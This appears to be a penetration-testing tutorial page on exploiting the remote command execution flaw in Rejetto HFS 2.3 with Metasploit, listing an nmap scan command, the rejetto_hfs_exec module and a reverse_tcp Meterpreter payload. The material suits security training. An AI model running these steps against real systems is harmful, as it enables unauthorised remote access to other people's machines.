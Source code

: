 # Exploiting A Vulnerable HTTP File Server

* An HTTP File Server (HFS) is a web server that is designed for file & document sharing.
* HTTP File Servers typically run on TCP port 80 and utilize the HTTP protocol for underlying communication.
* Rjetto HFS is a popular free and open source HTTP file server that can be setup on both Windows and Linux.
* Rejetto HFS V2.3 is vulnerable to a remote command execution attack.
* MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.

## Practical Demo

#### Enumerate the target using the db\_nmap command

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Search for a module for rejetoo

* <mark style="color:yellow;">search type:exploit name:rejetto</mark>

We will use:

* <mark style="color:yellow;">exploit/windows/http/rejetto\_hfs\_exec</mark>

Set the payload, in this case a staged 64-bit meterpreter

* <mark style="color:yellow;">windows/x64/meterpreter/reverse\_tcp</mark>
